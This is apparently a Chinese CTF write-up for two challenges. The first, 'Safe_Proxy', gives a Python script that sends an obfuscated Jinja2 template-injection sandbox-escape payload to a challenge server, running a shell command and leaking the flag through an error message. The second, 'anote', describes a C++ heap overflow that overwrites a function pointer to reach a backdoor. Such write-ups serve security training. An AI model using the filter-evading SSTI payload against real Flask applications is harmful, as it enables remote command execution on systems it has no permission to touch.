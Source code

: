 ### Safe_Proxy

经典 python 沙箱逃逸。

```python title="Safe_Proxy.py"
import requests

url = "http://47.94.100.164:20554/"

data = {
    "code": r'{{url_for["_"+"_globals_"+"_"]["_"+"_bui"+"ltins_"+"_"]["setattr"](((lipsum["_"+"_spec_"+"_"]|attr("_"+"_init_"+"_")|attr("_"+"_globals_"+"_"))["s"+"ys"]|attr("modules"))["werkzeug"]|attr("exceptions")|attr("InternalServerError"),"description",url_for["_"+"_globals_"+"_"]["_"+"_bui"+"ltins_"+"_"]["_"+"_imp"+"ort_"+"_"]("o"+"s")["pop"+"en"]("cat /flag").read())}}'
}

response = requests.post(url, data=data)

data = {
    "code": r'code={{{1*1}}}'
}

response = requests.post(url, data=data)

print(response.text)
```

### anote

checksec 32 位程序，逆一下，发现是 C++ 程序

![[image-20241215173203359.png]]

![[image-20241215173357340.png]]

fuzz 一下，程序有三个功能，添加堆块，修改堆块，查看堆块。

用 gdb 观察程序运行，发现每个新增的堆块结构如下：

![[image-20241215173459366.png]]

在堆块 `data` 域偏移0的位置存储了一个指向函数指针的指针，ida 里看一下是输出 work done 的函数。

且这个函数在每次 edit 完成之后都会通过上述指针调用。

![[image-20241215173626261.png]]

在 show 函数中，会输出被 show 的堆块的 data 域地址：

![[image-20241215173748179.png]]

在 edit 函数中，允许我们最大输入的长度为 40，但是每个堆块的 data 域只有 0x1C 大小，存在堆溢出漏洞。

本题思路为，通过溢出上一个堆块，来覆盖掉下一个堆块的指向函数指针的指针，修改为程序里的后门函数，然后 edit 下一个堆块，触发后门函数，完成利用。

我们需要在已知堆区域布置好指向后门函数的指针，然后把下一个堆块覆盖为该地址。

![[image-20241215174129952.png]]
